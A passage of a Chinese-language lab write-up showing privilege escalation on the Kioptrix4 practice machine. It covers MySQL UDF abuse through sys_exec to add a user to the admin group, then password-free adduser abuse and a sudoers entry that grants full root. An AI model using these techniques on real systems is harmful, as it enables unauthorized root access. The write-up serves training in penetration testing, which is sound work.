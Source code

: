 ![](https://mmbiz.qpic.cn/mmbiz_jpg/qq5rfBadR39nqPqTZUdeFh0uiblOwBlaib7w1w9eQFtMial5rqbyx3ulkvMnuIibDx1ibtlrn7HdrqlaAruYz8Jr5ZA/640?wx_fmt=jpeg)

ps -ef | grep root | grep mysql

![](https://mmbiz.qpic.cn/mmbiz_jpg/qq5rfBadR39nqPqTZUdeFh0uiblOwBlaib3x5s6xOUSCiaiatk16ICVVDib1NMMoj0LPxHARd8qiaohkwP3Qdo5XfPlA/640?wx_fmt=jpeg)

很自然想到的 MySQL UDF 提权，从前面 SQL 注入中获取到的信息发现数据库版本是 5.0.12，但是在上传动态链接库后导出时出错。然而，在查看 mysql 数据库时很幸运发现已经存在 func 表，且表中含有执行命令的函数，

```
mysql> use mysql
Reading table information for completion of table and column names
You can turn off this feature to get a quicker startup with -A

Database changed
mysql> select * from func;
+-----------------------+-----+---------------------+----------+
| name                  | ret | dl                  | type     |
+-----------------------+-----+---------------------+----------+
| lib_mysqludf_sys_info |   0 | lib_mysqludf_sys.so | function |
| sys_exec              |   0 | lib_mysqludf_sys.so | function |
+-----------------------+-----+---------------------+----------+
2 rows in set (0.00 sec)

mysql> select sys_exec('usermod -a -G admin john');
+--------------------------------------+
| sys_exec('usermod -a -G admin john') |
+--------------------------------------+
| NULL                                 |
+--------------------------------------+
1 row in set (0.05 sec)

mysql> exit
Bye
john@Kioptrix4:/var/www$ sudo su -
[sudo] password for john:
root@Kioptrix4:~# whoami
root
root@Kioptrix4:~# cd /root
root@Kioptrix4:~# ls
congrats.txt  lshell-0.9.12
root@Kioptrix4:~#
```

apt-get 提权
----------

执行 sudo -l，发现可以免密执行 adduser 命令，添加一个 root 组的用户

![](https://mmbiz.qpic.cn/mmbiz_jpg/qq5rfBadR39nqPqTZUdeFh0uiblOwBlaibE5s65FZdoyib6lVb2xNSRMvJltJkCL5XXtTibKtd6niciavcqnxGxy0b3Q/640?wx_fmt=jpeg)

有了这个跟 root 同一组的用户，就可以读到一些只能 root 组和 root 读的文件:/etc/sudoers，该文件包含了能够让普通用户执行一些或者全部的 root 命令，如果该文件可以写入的话，我们可以把当前用户写入：chounana ALL=(ALL:ALL) ALL，这样当执行 sudo su 的时候，我们就可以进入到 root 了！
